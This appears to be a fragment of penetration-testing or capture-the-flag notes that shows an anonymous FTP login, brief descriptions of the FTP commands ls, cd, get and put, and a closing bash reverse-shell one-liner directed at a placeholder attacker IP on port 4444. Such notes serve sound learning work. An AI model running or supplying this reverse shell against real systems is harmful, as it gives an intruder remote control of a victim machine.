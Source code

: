 ```
ftp <IP>
Username: anonymous
```

ls
List files and directories in the working directory on the FTP server

cd
Change our working directory on the FTP server

get
Download a file from the FTP server to our device

put
Upload a file from our device to the FTP server

```
bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1
```